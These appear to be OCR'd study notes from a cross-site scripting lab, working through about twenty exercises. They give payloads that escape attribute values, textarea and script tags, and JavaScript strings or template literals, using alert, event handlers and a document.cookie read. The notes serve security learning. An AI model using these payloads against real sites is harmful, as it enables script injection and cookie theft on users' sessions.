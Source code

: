 o	Here there is a function dosomething
	if (arg !== '') console.log("arg as " + arg + ".")
o	Encode ‘ to HTML>URL= %26%23%78%32%37%3b
	Now check it inside in console in Inspector
	So there is a syntax error
o	So we need to create payload like
	asdf’-alert(1)-‘ encode ‘ in HTML>URL
	asdf%26%23x27%3b-alert(1)- %26%23x27%3b
o	%26%23x27%3b-alert(1)-%26%23x27%3b
•	Exercise 06 Injection in Attribute Value – Double Quote Delimiter
o	If the payload reflecting inside the html (<input type="hidden" name="p06" value="asdf">) so first, we need to exit from this input tag.
o	So we need to use “> before payload to get out from it.
o	asdf"><script>alert(1)</script>
o	Exercise 07: asdf'><script>alert(1)</script>
•	Exercise 08 Filtered Injection in Attribute Value – Double Quote Delimiter
o	When payload not able to get out from html by using this “>
o	Then use this input: asdf" onmouseover="alert(1)
o	<input type= "text" name="p08" value="asdf" onmouseover="alert(1)”>
o	And also, we are now closing with “ because it’s getting from server side.
o	and we need to encode space with +, because BurpSuite doesn’t supports space.
o	asdf"+onmouseover="alert(1)
o	another way is to use focus and auto focus, alert when click on the value.
o	asdf”+onfocus= "alert(1)
o	asdf"+autofocus+onfocus= "alert(1)
o	Exercise 09: we can close tags with + and //
	asdf’+onmouseover=’alert(1)
	asdf’+onfocus=’alert(1)+
	asdf’+autofocus+onfocus=‘alert(1)//
•	Exercise 10 Injection in Textarea Tag 
o	</textarea>asdf<script>alert(1)</script>
o	asdf</textarea><script>alert(1)</script>
•	Exercise 11 Injection in Script Tag – Single Quote Delimiter
o	</script>asdf<script>alert(1)</script>
o	Exercise 11: asdf</script><img+src=x+onerror=confirm(1)>
o	In case () getting error: asdf</script><img+src=x+onerror=confirm`1`>
o	Exercise 12: asdf</script><img+src=x+onerror=confirm(document.cookie)>
•	Exercise 13 Injection in Javascript Variable – Single Quote Delimiter
o	<script>
   var p13 = ‘asdf’;
</script>
o	In this case where value reflecting inside the java script and in “ and ‘ then 
o	use asdf’;alert(1);//so will get reflects  var p13 = ‘asdf’;alert(1);//’;
o	if ; not allow then, asdf’-alert(1)-‘ or asdf’-alert(1)//
o	Exercise 14: asdf"-alert(1)-"
•	Exercise 15 Filtered Injection in Javascript Variable – Single Quote Delimiter
o	asdf\'-alert(1)-//
o	used // to convert ‘; into comment
o	Exercise 16: asdf\";alert(1)//
o	Exercise 17: asdf</script><svg+onload=prompt(1)>
o	Exercise 18: asdf`-alert(1)-`
o	Exercise 19: asdf\`;alert(1)//
•	Exercise 20 Filtered Injection in Javascript Variable – Backticks Delimiter
o	In this case we are not able to get out from `asdf` even if we use `aasd\` it will give us result `asdf\\\``
o	So we use ${} bcz it can work inside ``
o	asdf${alert(1)}
•	Exercise 21 Validated Injection in HTTP Reference
o	It is a regex
o	we can’t replace the whole value
o	https://www.google.com/search?q=brutelogic
o	able to remove only some strings, after removing it looks like